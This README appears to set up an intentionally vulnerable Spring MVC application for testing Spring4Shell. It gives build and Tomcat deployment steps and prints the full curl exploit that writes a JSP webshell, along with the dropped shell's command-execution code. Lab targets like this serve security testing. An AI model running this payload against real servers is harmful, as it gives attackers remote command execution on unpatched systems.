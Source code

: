 # Intentionally Vulnerable Spring Framework Application

This application is vulnerable to Spring4Shell.

## How do I use this?

First, this was tested on Ubuntu 21.04 (because I hate myself) and OpenJDK 11. Once you've accepted that, snag the code and build it.

```
git clone https://github.com/jbaines-r7/spring4shell_vulnapp.git
cd spring4shell_vulnapp
mvn package
```

That should generate a war file in `./target/`. You can load the war into Tomcat. How? Something like:

```
wget https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77.zip
unzip apache-tomcat-8.5.77.zip
chmod +x apache-tomcat-8.5.77/bin/*.sh
cp target/vulnerable-1.0.0.0.war apache-tomcat-8.5.77/webapps/
./apache-tomcat-8.5.77/bin/startup.sh
```

It should be ready to test! The orginal Tomcat webshell exploit is good as far as I'm concerned:

```
curl -v -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://localhost:8080/vulnerable-1.0.0.0/rapid7
```

The file is dropped to disk:

```
cat ./apache-tomcat-8.5.77/webapps/ROOT/tomcatwar.jsp 
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))3D-1){ out.println(new String(b)); } } -
```

Done!

### Docker Alternative

```
git clone https://github.com/jbaines-r7/spring4shell_vulnapp.git
cd spring4shell_vulnapp
docker build --tag spring4shellapp .
docker run -p 8080:8080 --rm -d spring4shellapp
```

## Credit

This is a modified version of [Ramesh Fadatare's](https://github.com/RameshMF) [Spring MVC Tutorial: Helloworld Example](https://github.com/RameshMF/spring-mvc-tutorial/tree/master/springmvc5-helloworld-exmaple). Thank you Ramesh for the easy to use code.
